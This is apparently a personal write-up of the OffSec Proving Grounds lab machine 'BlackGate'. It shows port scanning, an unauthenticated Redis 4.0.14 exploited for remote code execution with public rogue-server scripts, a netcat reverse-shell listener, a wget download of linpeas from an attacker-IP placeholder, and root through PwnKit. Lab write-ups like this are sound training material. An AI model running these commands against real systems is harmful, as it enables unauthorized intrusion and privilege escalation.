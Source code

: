 # BlackGate
* Origin: Proving Grounds (OffSec)
* Difficulty: Hard(/Intermediate?)
* OS: Linux

## Enumeration
Initial nmap scan showed only port 22 open. Full nmap with UDP was hanging so used rustscan instead:
```
rustscan -a 192.168.230.176
```
![](img/rustscan.png)

Going to poke at Redis on port 6379 for a bit.
```
nc -nv 192.168.230.176
info
```

![](img/redis_info.png)

Standout pieces of info:
* Redis 4.0.14
* Linux 5.8.0-63-generic x86_64
* gcc 10.2.0

## Initial Foothold Through Insecure Redis Server
Doesn't look like we're going to be get anything out of the database just from this. Quick research on the Redis version number shows it's probably vulnerable to RCE (have seen this quite a few times before) using a custom module which can execute arbitrary commands after being uploaded to the Redis server. Tried the exploits from [here](https://github.com/n0b0dyCN/redis-rogue-server) and [here](https://github.com/Ridter/redis-rce)... the first one hung at first so tried with the second using the compiled module from the first and was able to get an interactive shell.
```
python redis-rce.py -r 192.168.230.176 -L 192.168.x.x -f exp.so
```

![](img/redis-rce.png)

Ended up switching to a reverse shell by rerunning and using the following netcat because this one was a little glitchy (you can see a random 'r' output in front of the username 'prudence'):
```
rlwrap nc -nvlp 8080
```
A note which addresses the redis vuln we already found is in the prudence user's home directory.

## Privilege Escalation
Machine information:
```
uname -a
Linux blackgate 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
Poked around a bit but finding nothing that immediately jumped out, decided to transfer over linpeas to do lazy man's enumeration.

Serve linpeas.sh through python http server on attacking machine:
```
python -m http.server 80
```
Download from target machine:
```
wget http://<attacker IP>/linpeas.sh
```
Nothing groundbreaking stands out, but what eventually ended up being fruitful was PwnKit, a memory exploit for polkit pkexec.

![](img/pwnkit_linpeas.png)

Downloaded the binary from [here](https://github.com/ly4k/PwnKit), transferred to target and ran to get root.

![](img/pwnkit_rooted.png)

QED
